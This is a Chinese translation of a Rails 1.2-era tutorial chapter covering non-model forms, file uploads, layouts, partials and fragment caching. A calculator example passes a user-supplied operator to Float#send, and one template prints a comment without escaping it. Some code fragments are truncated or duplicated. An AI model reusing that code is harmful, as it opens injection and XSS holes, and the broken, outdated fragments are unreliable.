到目前为止，我们一直关注的是 Rails 中模型、控制器和视图之间的集成。但 Rails 也提供了创建没有相应模型的字段的支持。这些在 `FormTagHelper` 中记录的辅助方法都接受一个简单的字段名称，而不是一个模型对象和属性。当表单提交给控制器时，字段的内容将存储在 `params` 哈希中的该名称下。所有这些非模型辅助方法的名称都以 `_tag` 结尾。

我们需要创建一个表单来使用这些字段辅助方法。到目前为止，我们一直在使用 `form_for` 来这样做，但这假设我们是在围绕一个模型对象构建表单，而使用底层辅助方法时情况未必如此。

我们可以在 HTML 中硬编码一个 `<form>` 标签，但 Rails 有一个更好的方法：使用 `form_tag` 辅助方法创建表单。与 `form_for` 类似，`form_tag` 应出现在 `<%...%>` 序列中，并应接受一个包含表单内容的代码块。⁸

```ruby
<% form_tag :action => 'save', :id => @product do %>
    Quantity: <%= text_field_tag :quantity, '0' %>
<% end %>
```

`form_tag` 的第一个参数是一个哈希，用于标识表单提交时要调用的操作。此哈希接受与 `url_for` 相同的选项（参见第 405 页）。一个可选的第二个参数是另一个哈希，允许你设置 HTML 表单标签本身的属性。（注意，如果 Ruby 方法的参数列表包含两个字面量哈希，则必须使用括号。）

```ruby
<% form_tag({ :action => :save }, { :class => "compact" }) do ...%>
```

我们可以用一个简单的计算器来说明非模型表单。它提示我们输入两个数字，让我们选择一个运算符，然后显示结果。



文件 `app/views/test/calculate.rhtml` 使用 `text_field_tag` 显示两个数字字段，使用 `select_tag` 显示运算符列表。注意我们如何必须使用 `params` 哈希中的当前值为所有三个字段初始化默认值。我们还需要显示在处理表单数据时在控制器中发现的任何错误列表，并显示计算结果。

```ruby
Download e1/views/app/views/test/calculate.rhtml
<% unless @errors.blank? %>
  <ul>
    <% for error in @errors %>
      <li><p><%= h(error) %></p></li>
    <% end %>
  </ul>
<% end %>

<% form_tag(:action => :calculate) do %>
  <%= text_field_tag(:arg1, params[:arg1], :size => 3) %>
  <%= select_tag(:operator,
                 options_for_select(%w{ + - * / },
                 params[:operator])) %>
  <%= text_field_tag(:arg2, params[:arg2], :size => 3) %>
<% end %>
<strong><%= @result %></strong>
```

8. 这是 Rails 1.2 中的一个变化。

如果没有错误检查，控制器代码将非常简单。

```ruby
def calculate
  if request.post?
    @result = Float(params[:arg1]).send(params[:operator], params[:arg2])
  end
end
```

然而，在没有错误检查的情况下运行网页是我们无法承受的奢侈，因此我们必须采用更长的版本。

```ruby
Download el/views/app/controllers/test_controller.rb
def calculate
  if request.post?
    @errors = []
    arg1 = convert_float(:arg1)
    arg2 = convert_float(:arg2)
    op   = convert_operator(:operator)

    if @errors.empty?
      begin
        @result = op.call(arg1, arg2)
      rescue Exception => err
        @result = err.message
      end
    end
  end
end

private

def convert_float(name)
  if params[name].blank?
    @errors << "#{name} missing"
  else
    begin
      Float(params[name])
    rescue Exception => err
      @errors << "#{name}: #{err.message}"
      nil
    end
  end
end

def convert_operator(name)
  case params[name]
  when "+" then proc {|a,b| a+b}
  when "-" then proc {|a,b| a-b}
  when "*" then proc {|a,b| a*b}
  when "/" then proc {|a,b| a/b}
  else
    @errors << "Missing or invalid operator"
    nil
  end
end
```

有趣的是，如果我们使用 Rails 模型对象，其中大部分代码都会消失，因为许多这类内务处理工作都是内置的。

#### 旧式 form_tag

在 Rails 1.2 之前，`form_tag` 不接受代码块。相反，它将 `<form>` 元素生成为一个字符串。你可以这样调用它：

```erb
<%= form_tag :action => :save %>
    ... form contents ...
<%= end_form_tag %>
```

在 Rails 1.2 中，你仍然可以这样使用 `form_tag`，但除非你有令人信服的理由避免使用代码块形式，否则不推荐这种用法。（而且很难想到一个现实世界中的需求是无法用代码块形式处理的——也许当表单在一个文件中开始，在另一个文件中结束时？）

为了强调 `form_tag` 的这种用法不受欢迎，Rails 已经弃用了 `end_form_tag` 辅助方法：你现在必须采用：

```erb
<%= form_tag :action => :save %>
    ... form contents ...
</form>
```

它的丑陋应该能让你停下来思考……

### 22.8 向 Rails 应用程序上传文件

你的应用程序可能允许用户上传文件。例如，一个错误报告系统可能允许用户将日志文件和代码示例附加到问题工单上，或者一个博客应用程序可能允许用户上传一张小图片显示在他们的文章旁边。

在 HTTP 中，文件作为 `multipart/form-data` POST 消息上传。顾名思义，这种类型的消息是由表单生成的。在该表单中，你将使用一个或多个带有 `type="file"` 的 `<input>` 标签。当由浏览器渲染时，此标签允许用户按名称选择文件。当表单随后提交时，文件或文件将与其他表单数据一起发送回来。

为了说明文件上传过程，我们将展示一些代码，允许用户上传图像并将该图像显示在评论旁边。为此，我们首先需要一个 `pictures` 表来存储数据。

```ruby
Download e1/views/db/migrate/003_create_pictures.rb
class CreatePictures < ActiveRecord::Migration
  def self.up
    create_table :pictures do |t|
      t.column :comment, :string
      t.column :name, :string
    end
```


t.column :content_type, :string
# 如果使用MySQL，blob默认大小为64k，因此我们需要
# 显式指定大小以扩展其容量
t.column :data,         :binary, :limit => 1.megabyte
end
end

def self.down
  drop_table :pictures
end
end

我们将创建一个略显刻意的上传控制器来演示整个过程。get操作相当常规；它只是创建一个新的图片对象并渲染一个表单。

```ruby
class UploadController < ApplicationController
  def get
    @picture = Picture.new
  end
  # . . .
end
```

get模板包含上传图片（连同评论）的表单。注意我们如何覆盖编码类型以允许数据随响应一起发送回服务器。

```erb
<%= error_messages_for("picture") %>

<% form_for(:picture,
            :url => {:action => 'save'},
            :html => { :multipart => true }) do |form| %>

    评论：                 <%= form.text_field("comment") %><br/>
    上传你的图片： <%= form.file_field("uploaded_picture") %><br/>

    <%= submit_tag("上传文件") %>
<% end %>
```

表单还有一个细微之处。图片被上传到名为 `uploaded_picture` 的属性中。然而，数据库表并不包含这个名称的列。这意味着模型中一定有一些魔法在发生作用。

```ruby
class Picture < ActiveRecord::Base

    validates_format_of :content_type,
                        :with => /^image/,
                        :message => "-- 你只能上传图片"

    def uploaded_picture=(pictureField)
        self.content_type = pictureField.content_type
        self.data = pictureField.read
    end

    def uploaded_picture
        return nil unless data and content_type
        PictureFile.new("upload", content_type, data)
    end
end
```

```ruby
def uploaded_picture=(picture_field)
  self.name          = base_part_of(picture_field.original_filename)
  self.content_type  = picture_field.content_type.chomp
  self.data          = picture_field.read
end

def base_part_of(file_name)
  File.basename(file_name).gsub(/[^\w._-]/, '')
end
```

我们定义了一个名为 `uploaded_picture=` 的访问器来接收表单上传的文件。表单返回的对象是一个有趣的混合体。它具有文件特性，因此我们可以使用 `read` 方法读取其内容；这就是我们获取图像数据并存入 `data` 列的方式。它还具有 `content_type` 和 `original_filename` 属性，让我们能够获取上传文件的元数据。所有这些解析工作都由我们的访问器方法完成：单个对象被存储为数据库中的独立属性。

注意，我们还添加了一个简单的验证来检查内容类型是否为 `image/xxx` 的形式。我们不希望有人上传JavaScript代码。

控制器中的save操作是完全常规的。

```ruby
# Download e1/views/app/controllers/upload_controller.rb

def save
  @picture = Picture.new(params[:picture])
  if @picture.save
    redirect_to(:action => 'show', :id => @picture.id)
  else
    render(:action => :get)
  end
end
```

那么，现在我们已经在数据库中存储了一张图片，如何显示它呢？一种方法是给它一个独立的URL，然后从一个图像标签直接链接到该URL。例如，我们可以使用像 `upload/picture/123` 这样的URL来返回编号123的图片。这将使用 `send_data` 将图像返回给浏览器。注意我们如何设置内容类型和文件名——这使得浏览器能够正确解释数据，并在用户选择保存图像时提供一个默认名称。

```ruby
# Download e1/views/app/controllers/upload_controller.rb

def picture
  @picture = Picture.find(params[:id])
  send_data(@picture.data,
            :filename => @picture.name,
            :type => @picture.content_type,
            :disposition => "inline")
end
```



图 22.3：上传文件

最后，我们可以实现show操作，它显示评论和图片。该操作只是加载图片模型对象。

```ruby
# Download e1/views/app/controllers/upload_controller.rb

def show
  @picture = Picture.find(params[:id])
end
```

在模板中，图像标签链接回返回图片内容的操作。图 22.3 展示了get和show操作的全貌。

```erb
# Download e1/views/app/views/upload/show.rhtml

<h3><%= @picture.comment %></h3>

 'picture', :id => @picture.id) %>"/>
```

你可以通过缓存picture操作来优化此技术的性能。（我们从第456页开始讨论缓存。）

如果你想用一种更简单的方式来处理图像的上传和存储，可以看看Rick Olson的 Acts as Attachment 插件。⁹ 创建一个包含特定列集合的数据库表（在Rick的网站上有文档），该插件将自动管理上传数据和上传元数据的存储。与我们之前的方法不同，它能够将上传内容存储在你的文件系统或数据库表中。

此外，如果你要上传大文件，你可能希望向用户展示上传过程的状态。可以看看 upload_progress 插件，它为Rails添加了一个新的 `form_with_upload_progress` 辅助方法。

9. http://technoweenie.stikipad.com/plugins/show/Acts+as+Attachment

### 22.9 布局和组件

到目前为止，本章我们讨论的模板都是孤立的代码和HTML片段。但Rails背后的一个核心理念是遵循DRY（Don't Repeat Yourself）原则，消除重复的需要。然而，普通的网站存在大量重复。

-   许多页面共享相同的页头、页脚和侧边栏。
-   多个页面可能包含相同的HTML片段（例如，一个博客网站可能有多个地方显示文章）。
-   相同的功能可能出现在多个位置。许多网站都有一个标准的搜索组件或投票组件，出现在网站的大多数侧边栏中。

Rails通过布局、局部模板和组件来减少这三种情况下的重复。

###### 布局

Rails允许你渲染嵌套在其他已渲染页面内的页面。通常，此功能用于将某个操作的内容放入标准的全站页面框架（标题、页脚和侧边栏）中。实际上，如果你一直在使用 `generate` 脚本创建基于脚手架的应用程序，那么你一直都在使用这些布局。

当Rails处理控制器内渲染模板的请求时，它实际上渲染了两个模板。显然，它渲染了你要求的模板（或者，如果你没有显式渲染任何内容，则渲染以操作名命名的默认模板）。但Rails还会尝试查找并渲染一个布局模板（我们稍后将讨论它如何找到布局）。如果找到布局，它会将特定操作的输出插入布局产生的HTML中。

让我们看一个布局模板。

```html
<html>
  <head>
    <title>表单: <%= controller.action_name %></title>
    <%= stylesheet_link_tag 'scaffold' %>
  </head>
  <body>

    <%= yield :layout %>

  </body>
</html>
```

布局设置了一个标准的HTML页面，包含 `head` 和 `body` 部分。它使用当前操作名作为页面标题，并包含一个CSS文件。在 `body` 中，有一个对 `yield` 的调用。这就是魔法发生的地方。当操作的模板被渲染时，Rails存储了其内容，并将其标记为 `:layout`。在布局模板内部，调用 `yield` 会检索这段文本。¹⁰,¹¹ 如果 `my_action.rhtml` 模板包含

```erb
<h1><%= @msg %></h1>
```

浏览器将看到以下HTML。

```html
<html>
  <head>
    <title>表单: my_action</title>
    <link href="/stylesheets/scaffold.css" media="screen"
          rel="Stylesheet" type="text/css" />
  </head>
  <body>

    <h1>你好，世界！</h1>

  </body>
</html>
```

##### 定位布局文件

正如你可能预期的那样，Rails为布局文件位置提供了很好的默认设置，但如果你需要不同的设置，可以覆盖默认值。

布局是特定于控制器的。如果当前请求由名为 `store` 的控制器处理，Rails默认将在 `app/views/layouts` 目录中查找名为 `store` 的布局（带有通常的 `.rhtml` 或 `.rxml` 扩展名）。如果你在 `layouts` 目录中创建一个名为 `application` 的布局，它将应用于所有未为其定义其他布局的控制器。

你可以使用控制器内部的 `layout` 声明来覆盖此行为。最简单的形式，该声明接受一个作为字符串的布局名称。以下声明将使文件 `standard.rhtml` 或 `standard.rxml` 中的模板成为 `store` 控制器中所有操作的布局。布局文件将在 `app/views/layouts` 目录中查找。

```ruby
class StoreController < ApplicationController

  layout "standard"

  # ...
end
```

你可以使用 `:only` 和 `:except` 限定符来限定哪些操作将应用该布局。

> 10. 事实上，`:layout` 是渲染时返回的默认内容，因此你可以写 `yield` 而不是 `yield :layout`。我个人更喜欢稍微明确一点的版本。
> 11. 你可以用 `<%= @content_for_layout %>` 代替 `yield :layout`。


class StoreController < ApplicationController
  layout "standard", :except => [ :rss, :atom ]
  # ...
end

将布局指定为 `nil` 会禁用该控制器的布局。

有时你需要在运行时改变一组页面的外观。例如，博客网站可能会在用户登录时显示一个外观不同的侧边栏菜单，或者商店网站在维护期间可能会显示外观不同的页面。Rails 通过动态布局来满足这一需求。如果 `layout` 声明的参数是一个符号，它会被视为一个控制器实例方法的名称，该方法返回要使用的布局名称。

```ruby
class StoreController < ApplicationController
  layout :determine_layout
  # ...
  private
  def determine_layout
    if Store.is_closed?
      "store_down"
    else
      "standard"
    end
  end
end
```

控制器的子类将使用父类的布局，除非它们使用 `layout` 指令覆盖它。

最后，单个 action 可以通过向 `render` 传递 `:layout` 选项来选择使用特定布局（或完全不使用任何布局）进行渲染。

```ruby
def rss
  render(:layout => false)  # 从不使用布局
end
```

```ruby
def checkout
  render(:layout => "layouts/simple")
end
```

##### 向布局传递数据

布局可以访问与常规模板相同的所有数据。此外，在常规模板中设置的任何实例变量在布局中都可用（因为常规模板是在布局被调用之前渲染的）。这可以用来参数化布局中的标题或菜单。例如，布局可能包含

```erb
<html>
  <head>
    <title><%= @title %></title>
    <%= stylesheet_link_tag 'scaffold' %>
  </head>
  <body>
    <h1><%= @title %></h1>
    <%= yield :layout %>
  </body>
</html>
```

单个模板可以通过给 `@title` 变量赋值来设置标题。

```erb
<% @title = "My Wonderful Life" %>
<p>
  亲爱的日记：
</p>
<p>
  昨天晚餐我吃了披萨。很好吃。
</p>
```

实际上，你可以更进一步。让你能够使用 `yield :layout` 将模板的渲染嵌入布局中的同一机制，也允许你在模板中生成任意内容，然后将其嵌入到任何其他模板中。

例如，不同的模板可能需要将各自特定的项添加到标准页面侧边栏中。我们将在这些模板中使用 `content_for` 机制来定义内容，然后在布局中使用 `yield` 将此内容嵌入到侧边栏。

在每个常规模板中，使用 `content_for` 给渲染在块内的内容命名。此内容将存储在 Rails 中，并且不会对模板生成的输出做出贡献。

```erb
<h1>常规模板</h1>

<% content_for(:sidebar) do %>
  <ul>
    <li>此文本将被渲染</li>
    <li>并保存以备后用</li>
    <li>它可能包含 <%= "动态" %> 内容</li>
  </ul>
<% end %>

<p>
  这是将出现在由此模板渲染的页面上的常规内容。
</p>
```

然后，在布局中，你使用 `yield :sidebar` 将此块包含到页面的侧边栏中。

```erb
<!DOCTYPE .... >
<html>
  <body>
    <div class="sidebar">
      <p>
        常规侧边栏内容
      </p>
      <div class="page-specific-sidebar">
        <%= yield :sidebar %>
      </div>
    </div>
  </body>
</html>
```

同样的技术可用于将特定于页面的 JavaScript 函数添加到布局的 `<head>` 部分、创建专门的菜单栏等。

#### 部分页面模板

Web 应用程序通常在多个页面上显示关于相同应用程序对象或对象的信息。购物车可能会在购物车页面显示订单行项目，并在订单摘要页面再次显示。博客应用程序可能会在主页索引页上显示文章内容，并在征求评论的页面顶部再次显示。通常，这涉及在不同模板页面之间复制代码片段。

然而，Rails 通过 *部分页面模板*（更常称为 *partials*）消除了这种重复。你可以将 partial 视为一种子程序：你从另一个模板中调用它一次或多次，可能将对象作为参数传递给它进行渲染。当 partial 模板完成渲染后，它会将控制权返回给调用模板。

在内部，partial 模板看起来与其他任何模板一样。在外部，存在一个微小的差异。包含模板代码的文件名必须以下划线字符开头，从而将 partial 模板的源与其更完整的兄弟姐妹区分开来。

例如，用于渲染博客条目的 partial 可能存储在常规视图目录 `app/views/blog` 中的文件 `_article.rhtml` 中。

```erb
<div class="article">
  <div class="articleheader">
    <h3><%= article.title %></h3>
  </div>
  <div class="articlebody">
    <%= h(article.body) %>
  </div>
</div>
```

其他模板使用 `render(:partial=>)` 方法来调用它。

```erb
<%= render(:partial => "article", :object => @an_article) %>
<h3>添加评论</h3>
. . .
```

`render` 的 `:partial` 参数是要渲染的模板的名称（但没有前导下划线）。此名称必须同时是有效的文件名和有效的 Ruby 标识符（因此 `a-b` 和 `20042501` 不是有效的 partial 名称）。`:object` 参数标识要传递给 partial 的对象。此对象将在模板内通过一个与模板同名的局部变量使用。在此示例中，`@an_article` 对象将被传递给模板，并且模板可以使用局部变量 `article` 来访问它。这就是为什么我们可以在 partial 中编写诸如 `article.title` 之类的内容。

地道的 Rails 开发者会使用一个与模板同名的变量（本例中为 `article`）。事实上，更进一步是正常的。如果要传递给 partial 的对象在一个与 partial 同名的控制器实例变量中，你可以省略 `:object` 参数。如果在前面的示例中，我们的控制器已经在实例变量 `@article` 中设置了 article，那么视图可以仅使用以下方式渲染 partial：

```erb
<%= render(:partial => "article") %>
<h3>添加评论</h3>
. . .
```

你可以通过向 `render` 传递 `:locals` 参数在模板中设置额外的局部变量。这接受一个哈希值，其中的条目代表要设置的局部变量的名称和值。

```ruby
render(:partial => 'article',
        :object  => @an_article,
        :locals  => { :authorized_by => session[:user_name],
                      :from_ip        => @request.remote_ip })
```

##### Partials 和集合

应用程序通常需要显示格式化条目的集合。博客可能显示一系列文章，每篇包含文本、作者、日期等。商店可能显示目录中的条目，每个条目有图片、描述和价格。

`render` 的 `:collection` 参数可与 `:partial` 参数结合使用。`:partial` 参数让我们可以使用 partial 来定义单个条目的格式，`:collection` 参数则将此模板应用于集合的每个成员。要使用我们之前定义的 `_article.rhtml` partial 显示文章模型对象的列表，我们可以这样写：

```erb
<%= render(:partial => "article", :collection => @article_list) %>
```

在 partial 内部，局部变量 `article` 将被设置为集合中的当前文章——该变量以模板命名。此外，变量 `article_counter` 将被设置为当前文章在集合中的索引。

可选的 `:spacer_template` 参数让你可以指定一个模板，该模板将在集合的每个元素之间渲染。例如，一个视图可能包含

```erb
<%= render(:partial           => "animal",
           :collection        => %w{ ant bee cat dog elk },
           :spacer_template   => "spacer")
%>
```

这会使用 `_animal.rhtml` 渲染给定列表中的每个动物，并在每个之间渲染 partial `_spacer.rhtml`。如果 `_animal.rhtml` 包含

```erb
<p>The animal is <%= animal %></p>
```

而 `_spacer.rhtml` 包含

```erb
<hr />
```

你的用户将看到一个动物名称列表，每个名称之间有一条线。

##### 共享的 Partial 页面模板

如果 `render` 调用的 `:partial` 参数是一个简单名称，Rails 会假设目标模板位于当前控制器的视图目录中。但是，如果名称包含一个或多个 `/` 字符，Rails 会假定直到最后一个斜杠的部分是目录名，其余部分是模板名。该目录假定在 `app/views` 下。这使得跨控制器共享 partial 变得容易。

Rails 应用程序中的约定是将这些共享的 partial 存储在 `app/views` 下一个名为 `shared` 的子目录中。可以使用如下方式渲染它们：

```erb
<%= render(:partial => "shared/post", :object => @article) %>
. . .
```

在前面的示例中，`@article` 对象将被赋值给模板内的局部变量 `post`。

##### Partials 和控制器

不仅仅是视图模板使用 partial。控制器也参与其中。Partial 使控制器能够使用以下方式生成页面的片段

与视图本身使用相同的部分模板。当您使用 AJAX 支持从控制器更新页面的某一部分时，这一点尤为重要——使用部分模板，您就能确保正在更新的表格行或项目行的格式与最初生成其同级内容的格式兼容。我们将在第 23 章 *Web 2.0*（第 522 页）中讨论部分模板与 AJAX 的结合使用。

#### 组件

虽然部分模板让您能够将渲染任务封装成独立的代码块，但它们并未提供一种包含重要业务逻辑的方式。毕竟，部分模板是一种视图构造，而视图不应包含业务代码。

当 Rails 最初发布时，它附带了一个创建组件的系统。这是控制器逻辑和渲染的打包组合——视图可以调用 `render_component` 辅助方法，然后调用某个控制器动作来渲染要插入到该视图中的代码片段。实际上，Rails 可以递归地调用自身。

不幸的是，组件的实现不尽如人意：性能较差，并且存在意料之外的副作用。因此，组件正逐渐被淘汰。

取而代之的是，目前的普遍做法是结合使用前置过滤器和部分模板来合成类似组件的功能。使用前置过滤器为部分模板设置上下文，然后通过常规的 `render :partial` 调用渲染所需的代码片段。这正是我们在 Depot 应用程序中采用的方法。我们使用前置过滤器找到购物车对象，然后在布局中调用 `render :partial=>...` 来显示该购物车。

##### 反对使用组件的理由

Rails 中的组件是一个典型的例子，说明了当热情超越谨慎时会发生什么。它是第一个（我们希望也是最后一个）不是从实际使用中提炼出来，而是为他人凭空发明的重大特性。这是过度热情的结果。

但是，为什么这些组件如此糟糕呢？除了相对较慢之外，它们还制造了一种分离的假象，并且常常阻碍构建强大的领域模型。

以电子商务网站上的购物车为例。这听起来像是组件的完美用例。它应该是独立的，对吧？嗯，其实不然。购物车的概念是商店创始上下文的一部分。它不仅仅关乎展示（视图），也同样关乎操作（控制器）。

以下是这个控制器如何使用过滤器将购物车设置到每个动作的上下文中。

```ruby
class ShopController < ActionController::Base
  before_filter :set_cart

  def index
    @products = Product.find(:all)
  end

  def buy
    @cart << Product.find(1)
    redirect_to :action => "index"
  end

  private
  def set_cart
    @cart = Cart.find(session[:cart_id])
  end
end
```

以下是 index.rhtml 视图：

```erb
<h1>My Magic Shop!</h1>

<div id="products">
  <%= render :partial => "product", :collection => @products %>
</div>

<div id="cart">
  <%= render :partial => "cart" %>
</div>
```

这展示了购物车如何在购买行为中完全通过控制器来使用，也展示了索引视图如何依赖于 @cart 的可用性来显示部分模板。将部分模板和上下文分离的一大好处是，您可以操作其中一个而不影响另一个。因此，购物车的部分模板可以与*任何*类型的购物车一起使用——例如用于检查活跃购物车的管理界面。

组件计划在 Rails 2.0 中作为插件提供。因此，如果您已经使用组件构建了应用程序，也不会被冷落。但这应该发出一个强烈的信号：组件不鼓励在日常使用中使用。

### 22.10 缓存，第二部分

我们从第 456 页开始查看了 Action Controller 中的页面缓存支持。我们说过 Rails 还允许您缓存页面的部分内容。这在动态网站中非常有用。也许您为博客应用程序中的每个用户个性化问候语和侧边栏。

在这种情况下，您不能使用页面缓存，因为整个页面对每个用户都是不同的。但由于文章列表在不同用户之间不会改变，您可以使用片段缓存——您只需构建一次显示文章的 HTML，然后将其包含在交付给各个用户的个性化页面中。

为了说明片段缓存，让我们设置一个模拟的博客应用程序。以下是控制器。它设置了 @dynamic_content，代表每次页面查看时都应该变化的内容。对于我们的模拟博客，我们使用当前时间作为此内容。

```ruby
# e1/views/app/controllers/blog_controller.rb
class BlogController < ApplicationController
  def list
    @dynamic_content = Time.now.to_s
  end
end
```

这是我们模拟的 Article 类。它模拟了一个在正常情况下会从数据库获取文章的模型类。我们安排列表中的第一篇文章显示其创建时间。

```ruby
# e1/views/app/models/article.rb
class Article
  attr_reader :body

  def initialize(body)
    @body = body
  end

  def self.find_recent
    [ new("It is now #{Time.now.to_s}"),
      new("Today I had pizza"),
      new("Yesterday I watched Spongebob"),
      new("Did nothing on Saturday") ]
  end
end
```

现在我们想设置一个模板，使用渲染后文章的缓存版本，但仍然更新动态数据。这其实非常简单。

```erb
# e1/views/app/views/blog/list.rhtml

<%= @dynamic_content %>  <!-- 这是动态内容。 -->

<% cache do %>           <!-- 这是我们要缓存的内容 -->
  <ul>
    <% for article in Article.find_recent -%>
      <li><p><%= h(article.body) %></p></li>
    <% end -%>
  </ul>
<% end %>                <!-- 缓存内容结束 -->

<%= @dynamic_content %>  <!-- 更多动态内容。 -->
```

**图 22.4：刷新包含缓存数据和非缓存数据的页面**

神奇之处在于 `cache` 方法。与此方法关联的块中生成的所有输出都将被缓存。下次访问此页面时，动态内容仍将被渲染，但块内的内容将直接来自缓存——它不会被重新生成。我们可以通过启动我们的基础应用程序并在几秒钟后点击刷新来看到这一点，如图 22.4 所示。页面顶部和底部的时间——我们数据的动态部分——在刷新时发生了变化。然而，中间部分的时间保持不变：它是从缓存提供的。（如果您在家尝试这个，并且看到所有三个时间字符串都发生了变化，那么很可能您是在开发模式下运行应用程序。默认情况下，缓存仅在生产模式下启用。如果您使用 WEBrick 进行测试，`-e production` 选项将起作用。）

这里的关键概念是，被缓存的是视图中生成的代码片段。如果我们是在控制器中构建文章列表，然后将该列表传递给视图，那么将来访问该页面时就不必重新渲染列表，但每次请求仍会访问数据库。将数据库请求移入视图意味着一旦输出被缓存，它就不会再被调用。

您可能会说，但这打破了将应用级代码放入视图模板的规则。我们能避免吗？可以，但这意味着缓存将比其他方式稍微不那么透明。诀窍是让动作检查是否存在缓存的片段。如果存在，该动作将跳过昂贵的数据库操作，因为知道该片段将被使用。

```ruby
# e1/views/app/controllers/blog1_controller.rb
class Blog1Controller < ApplicationController

  def list
    @dynamic_content = Time.now.to_s
    unless read_fragment(:action => 'list')
      logger.info("Creating fragment")
      @articles = Article.find_recent
    end
  end

end
```

该动作使用 `read_fragment` 方法来查看此动作是否存在片段。如果不存在，它就从（模拟的）数据库加载文章列表。视图然后使用此列表来创建片段。

```erb
# e1/views/app/views/blog1/list.rhtml

<%= @dynamic_content %> <!--- 这是动态内容。 -->

<% cache do %>        <!--- 这是我们要缓存的内容 -->
  <ul>
    <% for article in @articles -%>
      <li><p><%= h(article.body) %></p></li>
    <% end -%>
  </ul>
<% end %>            <!--- 缓存内容结束 -->

<%= @dynamic_content %> <!--- 更多动态内容。 -->
```

##### 使缓存片段过期

现在我们有了文章列表的缓存版本，我们的 Rails 应用程序将能够在每次引用此页面时提供它。但是，如果文章被更新，缓存版本就会过时，应该被过期。我们使用 `expire_fragment` 方法来完成此操作。默认情况下，片段使用渲染该页面的控制器和操作的名称（在我们的第一个案例中是 blog 和 list）进行缓存。要使片段过期（例如，当文章列表更改时），控制器可以调用

```ruby
# e1/views/app/controllers/blog_controller.rb
expire_fragment(:controller => 'blog', :action => 'list')
```

显然，这种命名方案仅在页面上只有一个片段时才有效。幸运的是，如果您需要更多，您可以通过向 `cache` 方法添加参数（使用 `url_for` 约定）来覆盖与片段关联的名称。


<% cache(:action => 'list', :part => 'articles') do %>
  <ul>
    <% for article in @articles -%>
      <li><p><%= h(article.body) %></p></li>
    <% end -%>
  </ul>
<% end %>

<% cache(:action => 'list', :part => 'counts') do %>
  <p>
    共有 <%= @article_count %> 篇文章。
  </p>
<% end %>

在这个例子中，缓存了两个片段。第一个通过额外的 :part 参数保存为 articles，第二个保存为 counts。

在控制器中，我们可以将相同的参数传递给 expire_fragment 来删除特定的片段。例如，当我们编辑一篇文章时，必须使文章列表的缓存失效，但计数仍然是有效的。如果我们删除了一篇文章，则需要使两个片段的缓存都失效。控制器代码如下所示（其中没有实际操作文章的代码——只需关注缓存部分）。

```ruby
class Blog2Controller < ApplicationController

  def list
    @dynamic_content = Time.now.to_s
    @articles = Article.find_recent
    @article_count     = @articles.size
  end

  def edit
    # 执行文章编辑
    expire_fragment(:action => 'list', :part => 'articles')
    redirect_to(:action => 'list')
  end

  def delete
    # 执行删除操作
    expire_fragment(:action => 'list', :part => 'articles')
    expire_fragment(:action => 'list', :part => 'counts')
    redirect_to(:action => 'list')
  end
end
```

expire_fragment 方法也可以接受一个正则表达式作为参数，允许我们使所有名称匹配的片段失效。

```ruby
expire_fragment(%r{/blog2/list.*})
```

###### 片段缓存存储选项

与会话类似，Rails 提供了多种存储片段的选项。而且，与会话一样，选择缓存机制可以推迟到应用程序接近（或处于）部署阶段。事实上，我们将把大部分关于缓存策略的讨论推迟到从第 460 页开始的 *部署与生产* 章节。

存储机制在你的环境中通过 `ActionController::Base.fragment_cache_store = <以下选项之一>` 来设置。

可用的缓存存储机制有：

- `ActionController::Caching::Fragments::MemoryStore.new`
  页面片段保存在内存中。这不是一个特别可扩展的解决方案。

- `ActionController::Caching::Fragments::FileStore.new(path)`
  将缓存片段保存在 directory path 指定的目录中。

- `ActionController::Caching::Fragments::DRbStore.new(url)`
  将缓存片段存储在外部 DRb 服务器中。

- `ActionController::Caching::Fragments::MemCachedStore.new(host)`
  将片段存储在 memcached 服务器中。

### 22.11 添加新的模板系统

本章开头我们提到 Rails 自带了两个模板系统，但添加自己的模板系统也很容易。这是更高级的内容，你可以安全地跳到下一章开头，而不会丢失你的 Rails 资质徽章。

模板处理器是一个满足两个条件的简单类。

- 它的构造函数必须接受一个参数，即视图对象。
- 它实现了一个名为 `render` 的方法，该方法接受模板的文本和一个包含局部变量值的哈希，并返回渲染该模板的结果。

让我们从一个简单的模板开始。RDoc 系统用于从 Ruby 注释生成文档，它包含一个格式化器，该格式化器接受一种相当简单的纯文本布局并将其转换为 HTML。让我们用它来格式化模板页面。我们将使用 `.rdoc` 文件扩展名创建这些模板。

模板处理器是一个简单的类，包含前面描述的两个方法。我们将把它放在 `lib` 目录下的 `rdoc_template.rb` 文件中。

```ruby
require 'rdoc/markup/simple_markup'
require 'rdoc/markup/simple_markup/inline'
require 'rdoc/markup/simple_markup/to_html'

class RDocTemplate
  def initialize(view)
    @view = view
  end

  def render(template, assigns)
    markup     = SM::SimpleMarkup.new
    generator  = SM::ToHtml.new
    markup.convert(template, generator)
  end
end
```

现在我们需要注册这个处理器。这可以放在你的环境文件中，或者你可以在 `app/controllers` 目录下的 `application.rb` 中设置。

```ruby
require "rdoc_template"

ActionView::Base.register_template_handler("rdoc", RDocTemplate)
```

注册调用表明，任何以 .rdoc 结尾的模板文件都将由 RDocTemplate 类处理。我们可以通过创建一个名为 example.rdoc 的模板并通过新生成的测试控制器访问它来测试这一点。



#### 制作动态模板

